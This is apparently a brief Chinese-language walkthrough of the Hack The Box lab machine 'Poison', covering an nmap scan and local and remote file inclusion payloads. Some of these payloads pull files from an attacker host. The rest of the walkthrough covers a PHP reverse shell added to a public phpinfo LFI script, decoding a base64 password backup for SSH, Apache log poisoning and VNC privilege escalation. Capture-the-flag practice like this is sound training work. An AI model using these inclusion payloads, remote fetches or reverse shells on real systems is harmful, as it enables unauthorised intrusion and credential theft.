

# Poison


> https://github.com/honze-net/nmap-bootstrap-xsl
``` 
nmap -sS -sV -oA nmap/posion --stylesheet nmap-bootstrap-xsl 10.10.10.84
firefox nmap/posion.xml
```

* 远程执行漏洞
``` 
#  将源码转成base64的文本，这样apache就是识别不出
?file=php://filter/covert.base64-encode/resource=index.php

?file=http://10.10.14.15/AnyFile
?file=ftp://10.10.14.15/AnyFile
?file=expect://ls
?file=/etc/passwd
```

* php lfi
根据phpinfo.php，发现上传文件是开启的


> https://github.com/swisskyrepo/PayloadsAllTheThings
> PayloadsAllTheThings/File Inclusion/phpinfolfi.py
``` 
> 修改lfi.py d.find("[tmp_name] =&gt")
> 修改lfi.py 添加php的reverse shell
python lfi.py 10.10.10.84 80 100
```
解密pwdbackup.txt， ssh连接
``` 
for i in $(seq 0 12); do echo -n '| base64 -d';done
cat  pwdbackup.txt 
```

* apache log freebsd. 日志毒害
``` 
/var/log/httpd-access.log 
```

* VNC提权